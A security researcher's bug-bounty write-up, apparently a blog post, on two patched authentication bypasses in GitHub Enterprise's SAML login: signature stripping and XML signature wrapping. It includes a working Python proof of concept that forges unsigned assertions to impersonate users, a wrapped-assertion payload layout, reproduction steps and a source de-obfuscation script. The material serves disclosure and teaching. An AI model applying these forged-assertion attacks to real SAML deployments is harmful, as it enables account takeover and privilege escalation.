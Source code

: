 =========================================================
The road to your codebase is paved with forged assertions
=========================================================

:date: 2017-03-13
:modified: 2017-03-13 00:10
:tags: SAML, authentication, XSW
:category: bounty
:slug: github-saml
:authors: Ioannis Kakavas
:summary: Authentication bypass using vulnerabilities in the Github Enterprise SAML SP implementation


.. role:: bash(code)
   :language: bash

.. role:: rubyinline(code)
   :language: ruby

.. contents:: Navigation


TL;DR
-------
Two vulnerabilities were identified in the SAML Service Provider implementation of Github Enterprise edition that allowed for full authentication bypass. These vulnerabilities were reported to Github via their `bug bounty program in Hackerone <https://www.hackerone.com/github>`_ and mitigated.

Introduction
----------------

Github Enterprise allows to be configured for authentication `using SAML <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml>`_ , acting as a SAML Service Provider for the Organization's on premises SAML Identity Provider. For a short introduction on SAML authentication feel free to take a look in my `previous post <http://www.economyofmechanism.com/office365-authbypass.html#short-saml-introduction>`_ and/or any of the following: `wikipedia <https://en.wikipedia.org/wiki/SAML_2.0#Web_Browser_SSO_Profile>`_, `onelogin saml tutorial <https://developers.onelogin.com/saml>`_, `auth0 saml how-to <https://auth0.com/blog/how-saml-authentication-works/>`_. 

Ever since I heard that Github supported SAML authentication for it's Enterprise edition, I made a mental note to come back an take a look. I was curious about what I might find but because of Github being Github, I didn't expect to uncover anything significant and I gradually forgot about it. Fast forward to this January when `Orange Tsai <https://twitter.com/orange_8361>`_ posted their cool `writeup <http://blog.orange.tw/2017/01/bug-bounty-github-enterprise-sql-injection.html>`_ of the SQL injection vulnerability they discovered in GHE and `this tweet <https://twitter.com/github/status/818548407987945473>`_ from `Github Security <https://twitter.com/GithubSecurity>`_ announcing that they will be giving out some bonuses on the vulnerabilities reported in January and February. Orange's writeup triggered my interest and the bounty bonus functioned as a nice incentive.

This post describes what happened next. The focus will be on how I came about finding the vulnerabilities hoping that you can take something more out of reading this post, rather than just me "bragging" about what I found. 


Setting up the test environment
+++++++++++++++++++++++++++++++

Failing to read the `documentation <https://bounty.github.com/#open-bounties>`_ properly, I didn't know that I could ask for a testing license from Github, so I went and registered for a normal business trial (Apologies to the friendly sales guy who tried to set up a call with me following that - I never had a legitimate interest in buying).

I downloaded the qcow2 image, fired up a VM with 2 cpu and 4 GB ram, and.. nothing. 

.. figure:: /images/ghe1.png
    :alt: Firing up the VM
    :width: 50%

After navigating to `https://192.168.122.244:8443/setup` as instructed, I received the following message informing me that I would need 14 more GB of RAM at least to just bootstrap the installation. 

.. figure:: /images/ghe2.png
    :alt: Grounded by preflight checks
    :width: 50%

Thinking that I won't probably need all of this memory to just test out the SAML implementation, I focused on how to bypass the limitation. A quick search on how to mount and edit a qcow2 image pointed me to libguestfs and `guestfish <http://libguestfs.org/guestfish.1.html>`_ 
After successfully mounting the image, I did a quick search for 'preflight' and luckily enough I stumbled upon `/usr/local/share/enterprise/ghe-preflight-check` which contained all the limits. Changing 

.. code::

 CHECK_REQUIREMENTS = {¬
   default: {memory: 14, blockdev_capacity: 10, rootdev_capacity: 20},¬
 }

to

.. code::

 CHECK_REQUIREMENTS = {¬
  default: {memory: 3, blockdev_capacity: 10, rootdev_capacity: 20},¬
 }

did the trick and I was able to start the VM. 

Getting the source code of the SAML implementation
+++++++++++++++++++++++++++++++++++++++++++++++++++

Building on what Orange had described in the write-up, I proceeded to `scp` the source code from `/data/github/current` to the host machine and used the following script

.. code:: ruby

    require 'zlib'
    require 'fileutils'

    def decrypt(s)
        key = "This obfuscation is intended to discourage GitHub Enterprise customers from making modifications to the VM. We know this 'encryption' is easily broken. "
        i, plaintext = 0, ''
        Zlib::Inflate.inflate(s).each_byte do |c| 
            plaintext << (c ^ key[i%key.length].ord).chr
            i += 1
        end 
        plaintext
    end
    content = File.open(ARGV[0], "r").read
    filename = './decrypted_source/'+ARGV[0]
    if content.include? "ruby_concealer.so"
        content.sub! %Q(require "ruby_concealer.so"\n__ruby_concealer__), " decrypt "
        plaintext = eval content

        dirname = File.dirname('./decrypted_source/'+ARGV[0])
        unless File.directory?(dirname)
              FileUtils.mkdir_p(dirname)
        end 
    else
        plaintext = content
    end

    open(filename,'w') { |f| 
        f.puts plaintext
    }

to de-obfuscate all ruby files with 

.. code::

  find . -iname '*.rb' -exec ruby decrypt.rb '{}' \;





Verifying that everything works
++++++++++++++++++++++++++++++++++
Setting up the SAML authentication was quite easy following the steps in `the docs <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml>`_. For the Identity Provider part, I am using a python project based on `pysaml2 <https://pypi.python.org/pypi/pysaml2>`_ that can handle legitimate IdP functionality as well as a number of automated and semi-automated SAML related attacks. Hopefully it will be released soon and will be the topic of another blog post. I created a dummy IdP certificate

.. code:: bash

  openssl req -nodes -x509 -newkey rsa:2048 -keyout idp.key -out idp.crt -days 3650

and I set my Issuer to be https://idp.ikakavas.gr and the authentication endpoint to https://idp.ikakavas.gr/sso/redirect. Note that the domain doesn't have to resolve to something, since all communication is front-channel via the user's browser, a simple entry in `/etc/hosts` pointing to localhost is sufficient for testing.
I set up my Identity Provider to release a NameID with format `urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified` and I was ready to start testing.

I did a test authentication releasing user1 as the NameID in the Subject of the SAML Assertion and verified that everything works as expected. The user was created in my GHE instance (it supports just in time provisioning) and I was successfully logged in. 

The flow is that of a normal SAML Web Browser Single Sign On. 


.. figure:: /images/ghe_saml_flow.png
    :alt: SAML Web SSO flow
    :width: 50%

1. User attempts to access https://192.168.122.244 

2. Since SAML Authentication is enabled and access to the web interface is protected, GHE SAML SP builds an authentication request and redirects the user to the IdP Authentication endpoint with the Authentication Request deflated and urlencoded as a HTTP GET Parameter: 

3. The IdP validates the request and if it "knows" the Issuer proceeds to authenticate the user

4. On successful authentication the IdP constructs a SAMLResponse containing an Assertion with an Authentication Statement and instructs the user browser to post that to the Assertion Consuming Service endpoint of the GHE SAML SP. 

5. The SAML Response's authenticity and validity is verified, the user is extracted from the NameID of the subject in the SAML Assertion and a session is created for them. 

6. The session cookie is set and the user is redirected back to https://192.168.122.244 as an authenticated user.


Attacking the SAML SP Implementation
--------------------------------------

Signature Stripping
++++++++++++++++++++

Overview
`````````

The first thing I tried was to disable signing the SAML Response and the SAML Assertion that my Identity Provider was sending to the GHE Service Provider. I did that more for due diligence so that I can move on to more promising test cases and almost couldn't believe it when the authentication succeeded. 

If you were too bored to refresh your SAML knowledge above, the equivalent of a Service Provider accepting unsigned SAML assertions is accepting a username without checking the password. Effectively on the flow described above, on step 5, GHE SAML SP accepted any SAML Assertion assuming it was well formed and valid without checking it's authenticity.

So, in 30 mins time (counting the time it took to figure out how to run the VM with less than 14GB of RAM) I had a very serious bug in my hands. The impact of it was quite severe:

* An external or internal attacker would be able to authenticate as any existing user to a GHE instance. 

* An external or internal attacker would be able to create arbitrary users in a given GHE instance, even with elevated privileges (`setting the administrator attribute <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml/#saml-attributes>`_)

* An internal attacker would be able to elevate their privileges by setting the administrator attribute to true for their account. 


The thing is that signature verification is a very fundamental part of SAML SSO and I was too surprised and intrigued that this was not checked at all. I had to submit a report in Hackerone, but first I needed to know why. 

Details
```````

A few greps later, I figured out that the SAML implementation is contained within the `/data/github/current/lib/saml` directory. Ruby is not my strong point but the code seemed straightforward enough. A quick grep for `signature` left me more perplexed than before as I could see that there are code paths to handle the verification of the Signatures in the SAML Response

The verification process for an incoming SAML Response starts at `/data/github/current/lib/github/authentication/saml.rb` which deals with the HTTP POST request to the Assertion Consuming Service Endpoint and specifically in the :rubyinline:`get_auth_failure_result` method

.. code:: ruby

          def get_auth_failure_result(saml_response, request, log_data)
            unless saml_response.in_response_to || idp_initiated_sso? || ::SAML.mocked[:skip_in_response_to_check]
              return GitHub::Authentication::Result.external_response_ignored
            end
            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

            if saml_response.request_denied?
              log_auth_validation_event(log_data, "failure - RequestDenied", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => saml_response.status_message || REQUEST_DENIED_RESPONSE
            end

            unless saml_response.success?
              log_auth_validation_event(log_data, "failure - Unauthorized", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => UNAUTHORIZED_RESPONSE
            end

            if request_tracking? && !in_response_to_request?(saml_response, request)
              log_auth_validation_event(log_data, "failure - Unauthorized - In Response To invalid", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => UNAUTHORIZED_RESPONSE
            end
          end

The interesting part starts when `valid?` is called:

.. code:: ruby

            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

The `valid?` method of `saml_response` actually calls `validate` from of the `Message` class (`/lib/saml/message.rb`)

.. code:: ruby

        # Public: Validates schema and custom validations.
        #   
        # Returns false if instance is invalid. #errors will be non-empty if
        # invalid.
        def valid?(options = {}) 
          errors.clear
          validate_schema && validate(options)
          errors.empty?
        end 

and in turn `validate` method called above is implemented in `Response` class, that implements `Message` in `/data/github/current/lib/saml/message/response.rb`

.. code:: ruby

    def validate(options)
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])
    end

So I ended here and I had no clear way of knowing whether `validate_has_signature` and `validate_signatures` where executed or not. `SAML.mocked` would need to have been set to true somewhere and this would affect everything which seemed rather improbable, and I was certain that the `idp_certificate` was set since one cannot complete the SAML configuration part in the admin UI without setting this. 


The only way to know was to debug the functionality, the way debugging was meant to be done: Print statements. Jokes aside, having limited exposure to Ruby and unicorn adding `puts` or `pp` statements was the easiest way for me to get some insights at that point.  

So I replaced the obfuscated code with the de-obfuscated version of `/data/github/current/lib/saml/message/response.rb` and changed the following

.. code:: ruby

    def validate(options)
        pp options[:idp_certificate]
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          puts 'Going to validate the signature'
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
    ...

Next I had to figure out what runs the ruby application, so that I would know which logs to check for for the output. 

I started of by seeing what listens on port 443 and figured out that it is haproxy that then passes on the request to nginx which then passes it to unicorn. 
Using `systemctl list-units` I then found that the name of the service is github-unicorn and from the `data/github/current/config/unicorn.rb` file the location of the log file at `/var/log/githib/unicorn.log`

Armed with the knowledge above, I restarted the service, performed an authentication and took a look at the log to see what's going on and saw the following:

.. code:: ruby

 {:issuer=>"https://idp.ikakavas.gr",
  :idp_certificate=>nil,
  :sp_url=>"https://192.168.122.244"}

Since `:idp_certificate` was nil, :rubyinline:`!SAML.mocked[:skip_validate_signature] && options[:idp_certificate]` validated to false, and `validate_has_signature` and `validate_signatures` that would actually check the validity of the signatures were never executed!!  

Digging deeper to the source of the issue and the actual bug, I traced back to `/data/github/current/lib/github/authentication/saml.rb` where the `valid` is called

.. code:: ruby

    unless saml_response.valid?(
      :issuer => configuration[:issuer],
      :idp_certificate => idp_certificate,
      :sp_url => configuration[:sp_url]
    )

and the method `idp_certificate`. It looks like this:

.. code:: ruby

     # Public: Returns a string containing the IdP certificate or nil.
      def idp_certificate
        @idp_certificate ||= if configuration[:idp_certificate]
          configuration[:idp_certificate]
        elsif configuration[:idp_certificate_path]
          File.read(configuration[:idp_certificate_path])
        end
      end 

I kept staring at it, and nothing seemed off. I couldn't spot any error so "puts to the rescue!"
A few minutes later (unicorn restart took quite some time with 4GB of RAM) I was looking at what the configuration Hash looked like

.. code:: ruby

    {:sso_url=>"http://idp.ikakavas.gr/sso",
     :idp_initiated_sso=>false,
     :disable_admin_demote=>false,
     :issuer=>"https://idp.ikakavas.gr",
     :signature_method=>"http://www.w3.org/2001/04/xmldsig-more#rsa-sha256",
     :digest_method=>"http://www.w3.org/2000/09/xmldsig#sha1",
     :idp_certificate_file=>"/data/user/common/idp.crt",
     :sp_pkcs12_file=>"/data/user/common/saml-sp.p12",
     :admin=>nil,
     :profile_name=>nil,
     :profile_mail=>nil,
     :profile_key=>nil,
     :profile_gpg_key=>nil,
     :sp_url=>"https://192.168.122.244"}

The bug was staring me in the face. And it was a simple one. 

The configuration Hash has a property called `idp_certificate_file` and the code in  `/data/github/current/lib/github/authentication/saml.rb` attempted to get the `idp_certificate_path`. This returned `nil` and effectively disabled all SAML message integrity/authenticity protection.

PoC
``````

I wrote up the above and created the following PoC so that they could validate the issue easily:

.. code:: python

    import requests, urllib, zlib, base64, re, datetime, pprint
    from urlparse import parse_qs
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    # Change this to reflect your GHE setup
    URL ='https://192.168.122.244/login?return_to=https%3A%2F%2F192.168.122.244%2F'
    ISSUER = 'https://idp.ikakavas.gr'
    RECIPIENT = 'https://192.168.122.244/saml/consume'
    AUDIENCE = 'https://192.168.122.244'
    # user to impersonate
    NAMEID = 'testuser'

    # Get a client that can handle cookies
    saml_client = requests.session()
    # Make the initial request to trigger the authentication middleware
    # Disallow redirects as we need to catch the Location header and parse it
    response = saml_client.get(URL, verify=False, allow_redirects=False)
    idp_login_url = response.headers['Location']
    # Get the HTTP GET parameters as a dict
    saml_message = (dict([(k, v[0]) for k, v in parse_qs(idp_login_url.split("?")[1]).items()]))
    if 'SAMLRequest' in saml_message and 'RelayState' in saml_message:
        relay_state = saml_message['RelayState']
        encoded_saml_request = saml_message['SAMLRequest']
        # inflate and decode the request
        saml_request = zlib.decompress(urllib.unquote(base64.b64decode(encoded_saml_request)), -15)
        # get the AuthnRequest ID so that we can reply 
        to_reply_to = re.search(r'ID="([_A-Za-z0-9]*)"', saml_request, re.M|re.I).group(1)

        now = '{0}Z'.format(datetime.datetime.utcnow().isoformat().split('.')[0])
        not_after = '{0}Z'.format((datetime.datetime.utcnow()+ datetime.timedelta(minutes = 20)).isoformat().split('.')[0])
        #Now load a dummy SAML Response from file and manipulate necessary fields
        saml_response ='''<?xml version="1.0" encoding="UTF-8"?>
    <ns0:Response Destination="{5}"
      ID="id-ijkXTw5GmzOJrShaq"
      InResponseTo="{0}"
      IssueInstant="{1}" Version="2.0"
      xmlns:ns0="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:ns1="urn:oasis:names:tc:SAML:2.0:assertion">
      <ns1:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">https://idp.ikakavas.gr</ns1:Issuer>
      <ns0:Status>
        <ns0:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
      </ns0:Status>
      <ns1:Assertion ID="id-MnRkvbCYnZ7YQ9vP5"
        IssueInstant="{1}" Version="2.0">
        <ns1:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">{2}</ns1:Issuer>
        <ns1:Subject>
          <ns1:NameID
            Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">{3}</ns1:NameID>
          <ns1:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
            <ns1:SubjectConfirmationData
              InResponseTo="{0}"
              NotOnOrAfter="{4}" Recipient="{5}"/>
          </ns1:SubjectConfirmation>
        </ns1:Subject>
        <ns1:Conditions NotBefore="{1}" NotOnOrAfter="{4}">
          <ns1:AudienceRestriction>
            <ns1:Audience>{6}</ns1:Audience>
          </ns1:AudienceRestriction>
        </ns1:Conditions>
        <ns1:AuthnStatement AuthnInstant="{1}" SessionIndex="id-bBMbAuaPOePnBgNTx">
          <ns1:AuthnContext>
            <ns1:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</ns1:AuthnContextClassRef>
          </ns1:AuthnContext>
        </ns1:AuthnStatement>
      </ns1:Assertion>
    </ns0:Response>'''.format(to_reply_to, now, ISSUER, NAMEID, not_after, RECIPIENT, AUDIENCE)
        data = {'SAMLResponse': base64.b64encode(saml_response),
                'RelayState':relay_state}
        #Post the SAML Response to the ACS endpoint
        r = saml_client.post(RECIPIENT, data=data, verify=False, allow_redirects=False)
        # we expect a redirect on successful authentication 
        if 300 < r.status_code < 399:
            # Print the cookies for verification
            pprint.pprint(r.cookies.get_dict())

The above would print out something like the following:

.. code::

 {'_fi_sess': 'eyJsYXN0X3dyaXRlIjoxNDg0MDY0NjMxNzU3LCJmbGFzaCI6eyJkaXNjYXJkIjpbXSwiZmxhc2hlcyI6eyJhbmFseXRpY3NfZGltZW5zaW9uIjp7Im5hbWUiOiJkaW1lbnNpb241IiwidmFsdWUiOiJMb2dnZWQgSW4ifX19LCJzZXNzaW9uX2lkIjoiMzM2OGFiYmFjOGVjMWQxNGZiYjhmNDAzMGRiNWFkZGQifQ%3D%3D--c9219c7ba29e5285a76275c2a0a5dcbb12925fcb',
 '_gh_render': 'BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTZlMmNjZTBmN2RjMGM3MDExMGI3%0AMzVkMjcxYjZkOGY5MTQxMTE0Yzg2NDMwOGFkM2EzZDE5OTU1MjJiMTRkMGEG%0AOwBGSSIPdXNlcl9sb2dpbgY7AEZJIg10ZXN0dXNlcgY7AFQ%3D%0A--ae525ab90dee2157dec9890cdb147c569ff5e6b8',
 'dotcom_user': 'testuser',
 'logged_in': 'yes',
 'user_session': 'yoF_AlS0VMFsZjBzj8mLF9Wk_Ne1YpCv57y_T1rTy-FEfD_dWHUHd3pqz07hXxODk0hhms_8gVxICuBQ'}

and setting the `user_session` session cookie in a browser would log the attacker in as the impersonated user. 

Disclosure
````````````

I submitted the report via Hackerone on January 10th. I receive and acknowledgement some hours later, the issue was triaged the next day and a new GHE `release <https://enterprise.github.com/releases/2.8.6/notes>`_ was out on January 12th.



XML Signature Wrapping Attacks
+++++++++++++++++++++++++++++++++ 

Next weekend I found myself with some time to spare so I thought I'd give my testing software another spin in order to look for more issues. I have a test suite that would attempt all attacks described in the `2012 paper <https://www.usenix.org/conference/usenixsecurity12/technical-sessions/presentation/somorovsky>`_

Running the tool, it reported quite quickly that the implementation is vulnerable to a specific XML Signature Wrapping (XSW) attack, caused by the fact that the part that validates the signature and the part that implements business logic have different views on the data.

GHE SAML SP implementation was vulnerable to a crafted SAML Response that contains two SAML Assertions. Assuming the Legitimate Assertion is LA, the Forged Assertion is FA and LAS is the signature of the Legitimate Assertion, the malicious crafted SAML Response would look like this:

::

 <SAMLRespone>
   <FA ID="evil">
       <Subject>Attacker</Subject>
   </FA>
   <LA ID="legitimate">
       <Subject>Legitimate User</Subject>
       <LAS>
          <Reference Reference URI="legitimate">
          </Reference>
       </LAS>
   </LA>
 </SAMLResponse>

Upon receiving such a SAML response, GHE would successfully verify and consume it creating a session for **Attacker**, instead of **Legitimate User**, even if FA is **not** signed. 

Let's see why GHE is vulnerable to this attack by taking a look at the de-obfuscated source code as before:

The basic problem is that the implementers made an assumption that there will always be only one Assertion in a SAML response.

The verification process for an incoming SAML Response starts at `/data/github/current/lib/github/authentication/saml.rb` in

.. code:: ruby

 def rails_authenticate(request)


where the incoming SAML Message is used to create an instance of `SAML::Message::Response`

.. code:: ruby

    saml_response = ::SAML::Message::Response.from_param(request.params[:SAMLResponse])

`from_param()` from `/data/github/current/lib/saml/message.rb` base64 decodes the response, and then calls build() which in turn calls
parse() from `/data/github/current/lib/saml/message/response.rb`` In `parse()` the
`at\_xpath <http://www.rubydoc.info/github/sparklemotion/nokogiri/Nokogiri/XML/Searchable#at_xpath-instance_method>`__
and
`at <http://www.rubydoc.info/github/sparklemotion/nokogiri/Nokogiri/XML/Searchable#at-instance_method>`__
methods of `Nokogiri <www.nokogiri.org>`__ are used extensively in order
to search in the SAML Response for a given XPath and assign the text
value of the node to a variable.

This is the first part of the problem and this is how the business logic
gets its view of the SAML Response. Since `at_xpath` and `at` have
the well documented property of matching and retrieving **only** the
first result, no matter how many results are there, all variables below

.. code:: ruby

    issuer = d.at_xpath("//Response/Issuer") && d.at_xpath("//Response/Issuer").text
    issuer ||= d.at_xpath("//Response/Assertion/Issuer") && d.at_xpath("//Response/Assertion/Issuer").text
    status_code = d.at_xpath("//Response/Status/StatusCode")
    second_level_status_code = d.at_xpath("//Response/Status/StatusCode/StatusCode")
    status_message = d.at_xpath("//Response/Status/StatusMessage")
    authn = d.at_xpath("//AuthnStatement")
    conditions = d.at_xpath("//Response/Assertion/Conditions")
    audience_text = d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction") && d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction/Audience") && d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction/Audience").text
    attribute_statements = d.at_xpath("//Response/Assertion/AttributeStatement")
    subject = d.at_xpath("//Subject") && d.at_xpath("//Subject").text
    name_id = d.at_xpath("//Subject/NameID") && d.at_xpath("//Subject/NameID").text
    name_id_format = d.at_xpath("//Subject/NameID") && d.at_xpath("//Subject/NameID")["Format"]
    subj_conf_data = d.at_xpath("//Subject/SubjectConfirmation") && d.at_xpath("//Subject/SubjectConfirmation/SubjectConfirmationData")

would take their values from the Forged Assertion(!!!) since it was the first child of the SAML Response document.

Now that the Response object is built, `get_auth_failure_result(saml_response, request, log_data)` is called as we've seen above also

.. code:: ruby

            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

The `valid?` method of `saml_response` actually calls validate from /lib/saml/message.rb

.. code:: ruby

        # Public: Validates schema and custom validations.
        #   
        # Returns false if instance is invalid. #errors will be non-empty if
        # invalid.
        def valid?(options = {}) 
          errors.clear
          validate_schema && validate(options)
          errors.empty?
        end 

and `validate` is implemented in `/data/github/current/lib/saml/message/response.rb`

.. code:: ruby

    def validate(options)
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])
    end

Here is where the second part of the problem manifests and where the signature verification logic gets its view of the SAML Response:

`validate_has_signature` looks like this:

.. code:: ruby

    def validate_has_signature
        namespaces = {
          "ds" => "http://www.w3.org/2000/09/xmldsig#",
          "saml2p" => "urn:oasis:names:tc:SAML:2.0:protocol",
          "saml2" => "urn:oasis:names:tc:SAML:2.0:assertion"
        }
        unless document.at("//saml2p:Response/ds:Signature", namespaces) ||
               document.at("//saml2p:Response/saml2:Assertion/ds:Signature", namespaces)
          self.errors << "Message is not signed. Either the assertion or response or both must be signed."
        end
      end

``//saml2p:Response/saml2:Assertion/ds:Signature`` matches the legitimate assertion just fine so the method does not add anything to self.errors

Then, `validate_signatures`

.. code:: ruby

    def validate_signatures(certificate)
        certificate = OpenSSL::X509::Certificate.new(certificate)
        unless signatures.all? { |signature| signature.valid?(certificate) }
          puts "digest mismatch"
          self.errors << "Digest mismatch"
        end
      end

uses `signatures` that comes from ``/data/github/current/lib/saml/message.rb``

.. code:: ruby

    def signatures
      signatures = document.xpath("//ds:Signature", Xmldsig::NAMESPACES)
      signatures.reverse.collect do |node|
        Xmldsig::Signature.new(node)
      end || []
    end 

which matches the signature of the Legitimate Assertion in our forged SAML Response since it's the only one there and ``valid?`` from
``Xmldsig::Signature`` validates successfully the signature against the Identity Provider signing certificate (public key) since the legitimate assertion did come from the valid IdP.

Back to ``validate`` of ``response.rb``, all of the below

.. code:: ruby

        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])

would return true as they operate on data of the Forged Assertion and the attacker can freely control them to be valid.

PoC - Steps to reproduce
`````````````````````````````

The code/toolset that I was using for testing is not yet in a form to be released/shared (hopefully soon) so I used `SAML Raider <https://github.com/SAMLRaider/SAMLRaider>`_ in order to describe a PoC with steps to be reproduced by Github Security team.

1.  Set up GHE for SAML authentication with a SAML Identity Provider of
    your liking.

2.  Install Burp Suite and SAML Raider plugin and start Burp Suite

3.  Configure your browser to use Burp Suite as proxy

4.  Start the login process to GHE

5.  Intercept the SAML Authn Request and forward
        
    .. figure:: /images/xsw1.png
        :alt: SAML Authentication Request
        :width: 80%

6.  Login at your Identity Provider as a valid user

7.  Intercept the SAML Response
    
    .. figure:: /images/xsw2.png
        :alt: SAML Authentication Response
        :width: 80%

8.  In the SAML Raider window select XSW3 from the available attacks and
    click on "Apply XSW"

9.  Check the SAML response below to see that it is changed, and change
    the name in the Subject of the Assertion with ID
    ``_evil_assertion_ID`` to something else ( i.e. "victim_account")

    .. figure:: /images/xsw3.png
        :alt: Forge Assertion
        :width: 80%

10. Click Forward and check that you are logged in as ``victim_account``

    .. figure:: /images/xsw4.png
        :alt: Logged in as victim
        :width: 80%

Exploitability
```````````````
An attacker can bypass authentication given one of the following is true

1. The attacker is an existing user of a GHE instance that uses SAML authentication.

2. The attacker is an existing user of a SAML Identity Provider that is configured as a trusted Identity Provider for a GHE instance that
   uses SAML authentication

3. Or the attacker can get their hands on a valid signed assertion
   (*only* the signature needs to be valid, the rest can be anything)
   from a SAML Identity Provider that is configured as a trusted
   Identity Provider for a GHE instance that uses SAML authentication.
   Note that this assertion destination can be any other SAML Service
